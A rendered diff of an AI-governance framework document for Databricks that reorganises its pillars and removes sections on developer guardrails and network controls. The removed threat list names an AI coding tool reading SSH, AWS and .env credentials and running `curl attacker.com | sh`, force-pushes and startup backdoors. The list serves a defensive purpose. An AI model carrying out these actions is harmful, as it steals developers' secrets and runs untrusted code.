

Before and after one commit to bhavink/applied-ai-governance, a Markdown page: GOVERNANCE-FRAMEWORK.md, the part around one of its changes. Shown at 81% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/GOVERNANCE-FRAMEWORK.md
+++ b/GOVERNANCE-FRAMEWORK.md
@@ -107,78 +107,34 @@ No YAML. No policy engines. No deployment pipelines. SQL is the policy language.
 
 ---
 
-## The Seven Pillars
+## Pillars This Repository Documents
+
+The six questions above are answered across every layer of a Databricks deployment. This repository goes deep on the three pillars where identity and observability are established and where an agent runtime enforces them. The remaining concerns (the network perimeter, data-layer filtering, connection governance, and compliance-as-SQL) are enforced by Databricks platform features, and this repository cites the public documentation where they come up rather than restating them.
 
 ```
 +------------------------------------------------------------------+
 |                     Applied AI Governance                         |
 +------------------------------------------------------------------+
-|                                                                    |
-|  [0] Developer       Build-time guardrails for AI coding tools.   |
-|      Guardrails      Prevent credential exfiltration, destructive |
-|                      operations, and supply chain compromise      |
-|                      during development.                          |
-|                                                                    |
-|  [1] Network         Private connectivity, IP access lists,       |
-|      Access          firewall rules, VPC-SC, serverless NCC.      |
-|      Controls        The perimeter, before identity fires.        |
-|                                                                    |
-|  [2] Identity &      OBO (U2M), M2M, Federation. Three models,   |
-|      Access          one governance plane. OAuth scopes enforce   |
-|      Control         least privilege per token.                   |
-|                                                                    |
-|  [3] Data            Row filters, column masks, ABAC governed     |
-|      Governance      tags. Enforced by the SQL engine; no app     |
-|                      can bypass, no new tool needs integration.   |
-|                                                                    |
-|  [4] Tool & API      UC Connections govern external service       |
-|      Governance      access. GRANT/REVOKE USE CONNECTION is the   |
-|                      on/off switch. Confused deputy defense.      |
-|                                                                    |
-|  [5] Observability   Platform audit (system tables) + app audit   |
-|      & Audit         (custom tables) + MLflow traces. Chain of    |
-|                      custody: human -> tool -> SQL -> data.       |
-|                                                                    |
-|  [6] Policy &        Governance-as-SQL. Declarative, versionable, |
-|      Compliance      queryable. No drift between intent and       |
-|                      enforcement.                                 |
-|                                                                    |
+|  Documented in depth here:                                        |
+|                                                                   |
+|  [1] Identity &      OBO (U2M), M2M, Federation. Three models,    |
+|      Access Control  one governance plane. OAuth scopes enforce   |
+|                      least privilege per token.                   |
+|                                                                   |
+|  [2] Observability   Platform audit + app audit + MLflow traces.  |
+|      & Audit         Chain of custody: human -> tool -> SQL.      |
+|                                                                   |
+|  [3] Agent Runtime   Where identity and observability meet at     |
+|      Harness         runtime: per-user tokens, policy verdicts,   |
+|                      traces, and cost caps around tool calls.     |
+|                                                                   |
+|  Enforced by the platform (cited to Databricks docs):             |
+|  network isolation, row filters and column masks, UC Connections, |
+|  governance-as-SQL for compliance.                                |
 +------------------------------------------------------------------+
 ```
 
-### Pillar 0: Developer Guardrails
-
-**Question:** Is the AI coding assistant doing something dangerous during development?
-
-The newest attack surface. AI coding tools (Claude Code, Copilot, Cursor) have shell access, file system access, and network access on developer machines. An unguarded AI assistant can:
-
-- Read `~/.ssh/`, `~/.aws/`, `.env` files and exfiltrate credentials
-- Execute `curl attacker.com | sh` via obfuscated shell commands
-- `git push --force` to shared branches
-- Write backdoors into startup scripts
-
-This pillar sits outside the Databricks platform; it governs the development process itself. Context-aware tool interception (classifying each operation by what it actually does, not what tool it uses) is the pattern. Allow/deny lists don't scale; contextual classification does.
-
-**Future-proof because:** Every new AI coding tool will have the same attack surface: file access, shell access, network access. The classification model adapts; the threat categories are stable.
-
-### Pillar 1: Network Access Controls
-
-**Question:** Can the request even reach the AI service?
-
-| Control | What it does |
-|---------|-------------|
-| Private Link / PSC | No public internet path to workspace |
-| IP Access Lists | Restrict API/UI to known CIDR ranges |
-| Serverless NCC | Private connectivity from serverless compute to customer VNets |
-| VPC-SC (GCP) | Data exfiltration prevention at the cloud perimeter |
-| NSG / Firewall Rules | Restrict egress from compute to approved destinations |
-| Apps Networking | Databricks Apps run in control plane with managed private endpoints |
-
-This is the foundation. If the network doesn't allow it, nothing else matters. Every AI service on Databricks (SQL Warehouse, Model Serving, Genie, Apps) can be fully private, with zero public endpoints.
-
-**Future-proof because:** Network isolation is a physical property, not a software feature. New AI services inherit the workspace's network configuration automatically. You never need to "add firewall rules for Genie": it runs on the same private infrastructure.
-
-### Pillar 2: Identity & Access Control
+### Pillar 1: Identity & Access Control
 
 **Question:** Who is making this request, and what capabilities does their token grant?
 
````
Also changed, not shown: other parts of GOVERNANCE-FRAMEWORK.md (+10 -60 lines).
